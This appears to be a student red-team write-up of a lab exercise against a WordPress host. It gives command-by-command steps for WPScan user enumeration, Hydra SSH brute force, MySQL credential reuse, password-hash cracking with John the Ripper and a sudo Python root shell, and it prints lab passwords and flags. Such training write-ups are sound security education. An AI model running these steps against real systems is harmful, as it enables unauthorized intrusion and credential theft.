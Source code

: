 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (port 22)
  - HTTP (port 80)
  - Rpcbind (port 111)
  - Netbios-ssn (ports 139 and 445)

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (Wordpress Website)
  - Weak password/usernames (CWE-521)
  - Brute Force SSH to gain access to system
  - Unsalted password hash and privilege escalation with Python (CWE-328)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - - WPScan to enumerate users on the Target1 Wordpress website. - $ wpscan --url 192.168.1.110/wordpress - $ wpscan --url 192.168.1.110 --enumerate -u
  
  - It was known the user's password was weak and obvious. It was guessed before any commands were used but for practice, we used Hydra to crack Michael's password.
  - Command: hydra -l michael -p /usr/sahre/wordlists/rockyou.txt -vV 192.16.1.110 -t 4 ssh

  - flag1 was found in /var/www/html folder after searching through each file in the directory. The flag1 was found in the service.html in an HTML comment near the bottom of the HTML file.

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Manaully brute forced Michael's password, and also used Hydra for good measure. His password (password: michael) was weak and easily guessable. This allowed us to SSH into his machine and find flag2. The steps to find the second flag were similar to when we found flag1.
      - flag2 was discovered in /var/www next to a directory named "html"
        - Commands:
          - ssh michael@192.168.1.110
          - password: michael
          - cd /var/www
          - ls -l
          - cat flag2.txt

  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Same exploits as flag1 and flag2.
      - Once in Michael's system, we captured flag3.txt by accessing the MYSQL database
      - After searching through wp-config.php, we had access to his MYSQL database login credentials and were able to further explore the database.

      - Commands:
        - mysql -u root -p
        - We were then prompted for a password, which is 'R@v3nSecurity'
        - show databases;
        - use wordpress;
        - select * from wp_posts


  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Unsalted hash and privilege escalation with Python command.
      - For flag4, we cracked user Steven's password using John the Ripper, and looked at Stevens privileges using "sudo -l" ti find how we can escalte our privilege to root.
      - After getting access to the MYSQL database, we found the user's password hashes in the wp_users table. The password hashes were saved on the Kali machine in "wp_hashes.txt" for later use.
      - Commands:
      - mysql -u root -p
      - password: R@v3nSecurity
      - show databases
      - use wordpress;
      - show tables;
      - select * from wp_users;

    - The wp_hashes.txt file containing Steven's password hashes was cracked using John the Ripper. 
    - Command:
      - john wp_hashes.txt

    - After getting Stevens password, we could now SSH into the server as Steven.
       - Commands: 
         - ssh steven@192.168.1.110
         - password: pink84
         - sudo -l
         - Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - This Python command allowed us to be the "root@target1" user (Steven).
       - ls
       - cat flag4.txt


